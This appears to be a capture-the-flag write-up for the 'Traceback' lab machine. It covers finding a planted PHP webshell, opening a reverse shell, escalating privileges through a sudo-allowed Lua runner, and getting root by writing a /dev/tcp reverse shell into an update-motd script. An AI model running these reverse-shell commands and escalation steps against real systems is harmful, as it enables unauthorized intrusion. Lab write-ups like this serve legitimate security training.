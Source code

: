 # Traceback

## Enumeration

We start off with a full-port nmap to check running services (most of output truncated)

```bash
$ sudo nmap -sS -n -p- -A -oN full.nmp 10.10.10.181

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
```

We see port 22 with SSH and port 80 with HTTP. Let's check the HTTP.

### HTTP

We're greeted with a strange message:

![The Message](<../../.gitbook/assets/image (45).png>)

It seems as if our job is to find the "backdoor" into the system. The source has nothing particularly interesting, except for a comment:

![The Comment](<../../.gitbook/assets/image (37).png>)

If we google this comment we come across an interesting [GitHub repo](https://github.com/TheBinitGhimire/Web-Shells) with a collection of reverse shells. Let's put their names in a file called `wordlist.txt` and run `gobuster`:

```
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

```
$ gobuster dir -u http://10.10.10.181/ -w wordlist.txt -t 50

===============================================================
/smevk.php (Status: 200)
===============================================================
```

It appears as if `smevk.php` is on the target! Let's head over to http://10.10.10.181/smevk.php and we what happens.

![The Webshell](<../../.gitbook/assets/image (4).png>)

It definitely exists! The [repo ](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)tells us the default credentials are `admin:admin`.

![Yes, it's pretty hideous](<../../.gitbook/assets/image (7).png>)

## Foothold

The webshell looks horrible, but we have an `Execute` input where we can run commands. We can now use this to get an actual reverse shell.

First we use `nc` on a terminal to listen for incoming connections:

```
$ nc -nvlp 9001
```

Next we use a [PHP reverse shel](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)l **on the webshell** to redirect execution to it:

```
$ php -r '$sock=fsockopen("10.10.14.21",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

We get a connection! This is a fairly bad shell, but we can easily [upgrade it to be useful](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

## User

### Enumeration

Now we have a foothold, let's check what's in our user's home directory. It appears to be a file called `note.txt`:

```
webadmin@traceback:/home/webadmin$ ls
note.txt

webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

We have been left "a tool to practise Lua". As always, first thing we should do as a new user is **check our permissions.**

```
webadmin@traceback:/home/webadmin$ sudo -l
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

We can run `luvit` as `sysadmin`! We can guess that `luvit` is the tool that runs Lua scripts. Because we can run it as `sysadmin`, if we create a Lua script that spawns a shell we will spawn with higher privileges.

### Exploitation

```lua
os.execute("/bin/bash")
```

This is the command we want to run. We can simply use `echo` to create it:

```
webadmin@traceback:/home/webadmin$ echo 'os.execute("/bin/bash")' > privesc.lua
```

Now let's run it as `sysadmin`!

```
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
$ whoami
sysadmin
```

{% hint style="info" %}
You could also have done it in one line using the `-e` flag:

`sudo -u sysadmin /home/sysadmin/luvit -e ‘os.execute(“/bin/bash”)’`
{% endhint %}

We can now read `user.txt`!

```
sysadmin@traceback:/home/webadmin$ cat ~/user.txt
895...
```

## Root

Firstly, we want to get a nice SSH shell. We can get this using SSH keys.

### Getting SSH Access

First create the key pair:

```
$ ssh-keygen -f traceback

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:
[...]
```

I just hit `Enter`, meaning there's no passphrase. Now `cat traceback.pub` and echo it into `~/.ssh/authorized_keys` - this registers the keypair as valid.

{% hint style="warning" %}
When using `echo` in these scenarios, use `>>` rather than `>`. Using only a single `>` will overwrite all the other contents, essentially erasing any keys owned by other people, which is not a great thing to do.
{% endhint %}

{% hint style="info" %}
If `~/.ssh` doesn't exist already, make sure you create it.
{% endhint %}

```
echo "<public key>" >> ~/.ssh/authorized_keys
```

{% hint style="danger" %}
Make sure you spell it `authorized` not `authorised`!
{% endhint %}

Now we can log in via SSH using

```
ssh -i traceback sysadmin@10.10.10.181
```

### Finding the Vulnerability

To perform some automated privesc recon, I'm going to run [`linpeas`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).  Port it over by hosting it on a python SimpleHTPServer:

```
$ sudo python3 -m http.server 80
```

The `wget` it on the box:

```
wget 10.10.14.21/linpeas.sh
```

Then `chmod`, run and analyse the output.

Something that **really** sticks out is this:

![GROUP Writeable Files](<../../.gitbook/assets/image (44).png>)

These scripts get run **every time someone logs in with SSH**. If we can modify them (which we can), they will run whatever we modify them to. The important part here is [**they get run as root**](http://manpages.ubuntu.com/manpages/xenial/man5/update-motd.5.html).

### Exploitation

So the privesc is simple, but what should we get the file to do? There are a couple types of choices:

* Run something that enables us to get root
* Print the flag

In these situations, if both approaches are equivalently easy, then it's a good idea to go for **the approach that affects the least other users**. Nobody can notice our reverse shell since it's directly to our IP, so it doesn't affect other users.

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.21/9002 0>&1' > 00-header
```

Make sure you set up an `nc` listener on port 9002 and then log in via SSH again.

```
$ nc -nvlp 9002
```

```
$ ssh -i traceback sysadmin@10.10.10.181
```

And bam, we have a root shell.

```
root@traceback:/# whoami
whoami
root

root@traceback:/# cat /root/root.txt
cat /root/root.txt
e68...
```

